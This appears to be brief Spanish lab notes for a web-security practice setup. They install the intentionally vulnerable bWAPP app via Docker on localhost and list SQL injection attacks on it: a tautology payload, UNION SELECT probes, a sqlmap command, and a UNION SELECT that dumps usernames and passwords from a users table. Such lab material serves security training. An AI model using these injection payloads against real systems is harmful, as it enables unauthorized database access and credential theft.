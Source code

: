 
INTRODUCCIÓN 

INSTALACIÓN DEL LABORATORIO UTILIZANDO DOCKER

docker pull raesene/bwapp
docker run -d -p 8080:80 --name bwapp raesene/bwapp
http://localhost:8080/


metasploitable2



ataque 1
SQL Injection (GET/Search)
' or '1' = '1--

' UNION SELECT null, null, null, null, null,null, null -- 

C:\Python27\python.exe sqlmap.py -u "http://localhost:8080/sqli_1.php?title=aa&action=search"








' UNION SELECT username, password, null, null, null FROM users -- 


